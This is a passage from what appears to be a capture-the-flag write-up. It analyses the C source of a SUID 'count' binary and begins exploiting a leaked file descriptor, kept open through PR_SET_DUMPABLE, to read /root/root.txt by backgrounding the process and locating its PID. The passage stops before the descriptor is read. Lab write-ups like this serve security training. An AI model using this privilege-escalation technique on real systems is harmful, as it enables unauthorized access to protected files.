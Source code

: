 ```
            fputs(summary, fp);
            fclose(fp);
        } else {
            printf("Could not open %s for writing\n", path);
        }
    }

    return 0;
}

```

What’s especially interesting is that after getting the stats, it drops privs for file write by setting the `uid` to the result of `getuid`. With a SUID binary, this will be the actual userid of who ran the binary, in this case, dasith. This means I can’t use this to write in directories I can’t otherwise access.

This bit is interesting as well:

```

    // Enable coredump generation
    prctl(PR_SET_DUMPABLE, 1);

```

### Exploit File Descriptors

#### File Read in /root

The intended path to exploit this binary is to abuse the file descriptors in use by the `count` process. The issue in the source code is that it never closes `file`, which is the handle to the given filepath. That means that as long as the program is running, the handle will be in `/proc/[pid]/fd`. Typically this would be flushed on the `setuid`, but because of `PR_SET_DUMPABLE`, the file handles will stay open. To exploit this, I’ll run the program, and then background it when it gets to the prompt:

```

dasith@secret:/opt$ ./count 
Enter source file/directory name: /root/root.txt

Total characters = 33
Total words      = 2
Total lines      = 2
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count

```

I’ll get the PID of the process, in this case 1536:

```

dasith@secret:/opt$ ps auxww | grep count
root         841  0.0  0.1 235676  7416 ?        Ssl  15:40   0:00 /usr/lib/accountsservice/accounts-daemon
dasith      1536  0.0  0.0   2488   584 pts/0    T    16:22   0:00 ./count
dasith      1538  0.0  0.0   6432   728 pts/0    S+   16:22   0:00 grep --color=auto count

```

